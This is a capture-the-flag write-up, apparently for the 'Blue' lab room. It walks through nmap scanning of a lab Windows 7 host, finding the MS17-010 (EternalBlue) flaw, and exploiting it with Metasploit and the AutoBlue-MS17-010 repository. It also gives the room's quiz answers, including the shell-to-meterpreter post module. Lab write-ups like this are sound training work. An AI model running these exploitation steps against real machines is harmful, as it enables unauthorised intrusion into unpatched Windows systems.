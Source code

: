 ```yaml
---
description: 'OS: Windows'
---
```


# BLUE

**بسم الله الرحمن الرحيم**

<figure><img src="../../../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

### Recon

using Nmap&#x20;

```bash
nmap 10.10.55.229 -sV -sC 
```

How many ports are open with a port number under 1000?

```bash
sudo nmap 10.10.55.229 -p 1-1000  #Result = 3
```

<figure><img src="../../../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

```
sudo nmap 10.10.55.229 -sV  -p T:135,139,445 --script="smb-vuln-*"

```

<figure><img src="../../../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
**the OS windows VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)**
{% endhint %}

### Gain Access / initial Access

using MSF6

```bash
msfconsole
search ms17-010
use 0
options
set RhOSTS


```



<figure><img src="../../../../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

My connection was cut off  there was a problem with vpn

&#x20;

<figure><img src="../../../../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

but in my PC <mark style="color:red;">**FAIl**</mark>

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

&#x20;i will try search I Found exploit [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

```bash
git clone  https://github.com/3ndG4me/AutoBlue-MS17-010
cd AutoBlue-MS17-010/shellcode 
./shell_prep.sh
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Escalate

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)&#x20;

**`Answer`**` ``post/multi/manage/shell_to_meterpreter`

<figure><img src="../../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

Select this (use MODULE\_PATH). Show options, what option are we required to change?

**Answer** `session`\
